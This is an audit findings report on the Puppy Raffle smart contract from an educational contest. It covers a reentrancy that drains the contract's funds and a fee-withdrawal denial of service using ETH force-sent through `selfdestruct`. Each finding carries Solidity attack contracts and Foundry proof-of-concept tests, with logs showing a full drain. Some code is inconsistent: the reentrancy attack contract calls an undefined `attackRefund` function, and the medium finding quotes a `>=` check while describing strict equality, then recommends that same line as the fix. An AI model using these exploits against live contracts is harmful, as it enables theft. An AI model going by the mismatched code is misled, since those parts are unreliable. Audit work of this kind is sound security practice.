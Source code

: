 # First Flight #2: Puppy Raffle - Findings Report

# Table of contents
- ## [Contest Summary](#contest-summary)
- ## [Results Summary](#results-summary)
- ## High Risk Findings
    - ### [H-01. Sending native ETH value before updating state in leads to reentrancy](#H-01)
- ## Medium Risk Findings
    - ### [M-01. Strict equality of puppyRaffe contract balance and and total fees check makes `fee` withdrawal impossible. ](#M-01)



# <a id='contest-summary'></a>Contest Summary

### Sponsor: First Flight #2

### Dates: Oct 25th, 2023 - Nov 1st, 2023

[See more contest details here](https://www.codehawks.com/contests/clo383y5c000jjx087qrkbrj8)

# <a id='results-summary'></a>Results Summary

### Number of findings:
   - High: 1
   - Medium: 1
   - Low: 0


# High Risk Findings

## <a id='H-01'></a>H-01. Sending native ETH value before updating state in leads to reentrancy            

### Relevant GitHub Links
	
https://github.com/Cyfrin/2023-10-Puppy-Raffle/blob/e01ef1124677fb78249602a171b994e1f48a1298/src/PuppyRaffle.sol#L96C4-L96C7

## Summary
In `PuppyRaffle::refund`, native ETH is sent to the player using using the `sendValue` function from the `Address` lib from openZeppelin. The problem here lies in the fact that it sends the native ETH value using the low-level `call` so all gas is forwarded to receiver before the state is updated. 

## Vulnerability Details
A malicious player can enter the reffle using a contract rather than an EOA and decide to get out using the `refund` function but since it is a contract, it can run arbitrary code in either the `receive` or `fallback` functions in the receiving contract when the native ETH is sent and it provides an opportunity for reentrancy which can lead to the contract getting drained of all the funds. 

<details>
<summary>Poc</summary>

#### Attack contract
```solidity
IPuppyRaffle puppyRaffle;
    address  public  owner;

    constructor(address _puppyRaffle) {
        puppyRaffle = IPuppyRaffle(_puppyRaffle);
        owner = payable(msg.sender);
    }

    receive() external payable {
        if (address(puppyRaffle).balance >= 1) {
            attackRefund(4);
        } else {
             if (msg.sender != owner) {
            revert();
        }

        (bool success,) = owner.call{value: address(this).balance}("");
        if (!success) revert();
        }
    }
}
```

#### Add the test below to `PuppyRaffleTest.t.sol`
```solidity
///@notice Don't forget to import the attackPuppyRaffle contract 
    function setUp() public {
        puppyRaffle = new PuppyRaffle(
            entranceFee,
            feeAddress,
            duration
        );

        vm.startPrank(attacker);
        attackPuppyRaffle = new AttackPuppyRaffle(address(puppyRaffle));
        vm.stopPrank();
     
    }

        function testCanReenter() external playersEntered {
        console.log("PuppyRaffle balance before: ", address(puppyRaffle).balance);
        address attackerPlayer = address(attackPuppyRaffle);
        vm.deal(attackerPlayer, 1 ether);
        address[] memory players = new address[](1);
        players[0] = attackerPlayer;
        console.log("attacker EOA balance before", attackPuppyRaffle.owner().balance);


        vm.startPrank(attackerPlayer);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackPuppyRaffle.attackRefund(4);
        vm.stopPrank();

        console.log("PuppyRaffle balance after: ", address(puppyRaffle).balance);
        console.log("attackPuppy balance after: ", address(attackPuppyRaffle).balance);
        console.log("attacker EOA balance after", attackPuppyRaffle.owner().balance);
    }
```

#### logs: 
```
Running 1 test for test/PuppyRaffleTest.t.sol:PuppyRaffleTest
[PASS] testCanReenter() (gas: 246064)
Logs:
  PuppyRaffle balance before:  4000000000000000000
  attacker EOA balance before 0
  PuppyRaffle balance after:  0
  attackPuppy balance after:  0
  attacker EOA balance after 5000000000000000000
```

</details>
## Impact
100% of the protocol balance can be drained from the contract by a malicious player during an active raffle. 

## Tools Used
Manual review & Foundry. 

## Recommendations
1. Checks-Effects-Interactions pattern as recommended by the official solidity docs [here](https://docs.soliditylang.org/en/v0.8.22/security-considerations.html#use-the-checks-effects-interactions-pattern) should be followed. 
2. Use the ReentrancyGuard Library from OpenZeppelin. 
		
# Medium Risk Findings

## <a id='M-01'></a>M-01. Strict equality of puppyRaffe contract balance and and total fees check makes `fee` withdrawal impossible.             

### Relevant GitHub Links
	
https://github.com/Cyfrin/2023-10-Puppy-Raffle/blob/07399f4d02520a2abf6f462c024842e495ca82e4/src/PuppyRaffle.sol#L158

# Strict equality of puppyRaffe contract balance and and total fees check makes `fee` withdrawal impossible. 

## Summary
The `withdrawFees()` function sends the fees that has been earned throughout the duration of an active raffle to the `feeAddress` designated upon deployment of the `PuppyRaffle` contract. The problem lies in the fact that it checks if the contract balance matches the the amount of fees collected.




## Vulnerability Details
        
Fee withdrawal from the protocol is dependent on the balance of the contract being strictly equal to the total fees collected as denoted here in `withdrawFees()` below: 
```
 function withdrawFees() external {
        require(address(this).balance >= uint256(totalFees), "PuppyRaffle: There are currently players active!");
        uint256 feesToWithdraw = totalFees;
        totalFees = 0;
        (bool success,) = feeAddress.call{value: feesToWithdraw}("");
        require(success, "PuppyRaffle: Failed to withdraw fees");
}
```

## Proof of Concept
To demonstrate we use a sample smart contract that forcibly sends ETH to the contract using `selfdestruct` which is currently deprecated in solidity but can still be used in this instance. 


<details>
<summary>Poc</summary>

Attack contract: 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

contract AttackPuppyRaffle {
    receive() external payable {}

    function attack(address puppy) external payable {
        selfdestruct(payable(puppy));
    }
}
```


Poc test:
```
function testCannotWithdrawFees() public playersEntered {
        // simulate Sets block.timestamp past the raffle duration.
        vm.warp(block.timestamp + duration + 1);

        // setup attacker.
        address attacker = makeAddr("attacker");
        vm.deal(attacker, 10 ether);
        vm.prank(attacker);

        // fund the attack contract
        (bool success,) = address(attackPuppyRaffle).call{value: 1 wei}("");
        if (!success) revert();

        // select a winner via pseudorandomness. 
        puppyRaffle.selectWinner();

        // Now let's forcibly send ETH to puppyRaffle contract
        attackPuppyRaffle.attack(address(puppyRaffle));
        
        
        vm.expectRevert();
        // Fees cannot be withdrawn. 
        puppyRaffle.withdrawFees();
        console.log(puppyRaffle.feeAddress().balance);
    }
```
</details>


## Impact
Any call to withdraw the protocol fees will be reverted, as a result fees can never be withdrawn from the protocol. 

## Tools Used
Manual review and foundry. 

## Recommendations
The usage of strict equality for that check is not recommended in this instance. 

1. A more flexible check like this would suffice. </br>
`require(address(this).balance >= uint256(totalFees), "PuppyRaffle: There are currently players active!");`

2. Any amount that is left in the contract balance after the winner has been selected and paid should be withdrawn. 

This would allow fees to be withdrawn even though the contract balance is forcibly inflated. 




